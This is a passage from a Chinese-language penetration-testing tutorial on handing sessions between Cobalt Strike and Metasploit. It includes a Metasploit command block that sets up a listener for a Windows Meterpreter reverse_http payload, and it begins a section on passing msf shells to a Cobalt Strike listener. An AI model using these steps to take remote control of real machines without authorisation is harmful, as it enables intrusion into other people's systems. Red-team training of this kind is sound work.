 随后在msf中启动监听：

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set lhost 172.16.0.2
set lport 4444
exploit
```

在CS中，选择派生会话，并将payload选择为刚建立好的监听器后即可上线至msf。

![image-20230128212418379](../../images//image-20230128212418379.png)



### 7.2 msf2cs

将msf获取到shell同样可以传载至cs中。

在cs中，建立新的监听器

<img src="../../images//image-20230128212725697.png" alt="image-20230128212725697" style="zoom:67%;" />
